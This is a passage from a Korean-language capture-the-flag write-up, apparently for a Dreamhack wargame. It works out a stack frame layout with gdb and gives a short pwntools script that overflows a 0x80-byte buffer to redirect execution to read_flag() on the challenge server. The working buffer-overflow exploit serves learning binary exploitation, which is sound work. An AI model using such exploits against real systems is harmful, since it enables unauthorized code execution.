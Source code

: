```python
    return 0;
} 
```

### Stack frame 구조 파악하기

마찬가지로 `gdb`로 디버깅해보면 buffer 0x80 bytes, SFP 0x4 bytes, return address 0x4 bytes로 stack frame이 구성됨을 알 수 있다.

### Shellcode

따로 shellcode를 작성할 필요 없이 `read_flag()`를 실행하면 된다. `read_flag()`의 주소는 `gdb`로 디버깅하여 알아낸다.

### Payload 구성하기

위 문제들과 동일하게 구성하면 된다.

### Exploit

```python
from pwn import *

p = remote("host3.dreamhack.games", 14218)

payload = b"\x80"*0x84 + p32(0x80485b9)

p.sendline(payload)
p.interactive()
```